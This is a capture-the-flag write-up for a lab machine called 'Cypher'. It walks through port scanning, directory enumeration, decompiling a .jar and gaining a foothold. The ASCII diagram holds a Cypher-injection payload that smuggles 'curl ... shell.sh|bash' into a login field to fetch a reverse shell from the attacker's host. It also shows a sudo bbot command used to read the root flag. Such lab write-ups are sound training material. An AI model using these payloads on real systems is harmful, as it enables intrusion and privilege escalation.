




# 🔮Cypher

## 🧠Summary
> After web and service enumeration revealed a small attack surface, I discovered an overlooked component that accepted unsanitised input, giving me remote code execution and an initial low-privilege shell. Local recon exposed clear-text credentials for a second user, and a misconfigured sudo-allowed utility let me read restricted files—ultimately granting access to both user and root flags.

## ↘️ACSII Visual
```text
[ Nmap Scan ]
     |
     v
[ Ports 80 & 22 Open ]
     |
     v
[ Web Recon ]
  └──> Login page (no register)
  └──> dirsearch → /testing/
               |
               v
     [ .jar Downloaded ]
         └── Decompiled → Input sanitization flaw (url param)

               |
               v
   [ Reverse Shell Injection ]
     └── "username":"intruder' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.8/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"tester"
     └── Injected via POST /api/auth in Burp
               |
               v
        [ Shell as www-data ]
               |
               v
     [ Found bbot_scan file with creds ]
               |
               v
     [ su graphasm → Got user flag ]
               |
               v
   [ sudo -l → Can run /usr/bin/bbot ]
     └── Used: sudo bbot -t /root/root.txt -o /intruder
               |
               v
     [ Dumped root.txt → Got root flag 🏴 ]
```

## 🔎Nmap scan
- Did a nmap scan to find the open ports
- The result revealed port 80 and port 22 opened
  

## 🌐Web enumeration
- Did web enumeration using dirsearch and found out that a page testing exsist
- Went into that page to find a .jar file that has the java .class code
  

## 📌Loop hole
- Used a online decompiler to view the code and found a critical vunerablity
  
- It failed to sanitize the url field
- Started a Burp Suite session and and checked the /login page
- Found that the entered username and password goes through a /api/auth endpoint
  
- Created a json script inside the header tag containing a malicious code
  
- Got the reverse shell

## ⚓Foothold
- Entered the machine and checked the /etc/passwd file found a user called graphasm
  
- Tried to gain the root flag but failed then found a file in home dir called bbot_scan
- Opened it and found a password inside it
- Did "su graphasm" and used the obtained password to gain access as a user and gained the user flag
  
- Then checked the sudo -l and found that user has root prevelage to run bbot
- 
- Checked bbot and found it is an OSINT tool so used the command
  ```bash
  sudo bbot -t /root/root.txt -o /intruder
  ```
- The tool dumped the contents inside the intruder directory finally gaining root flag 🏴‍☠️
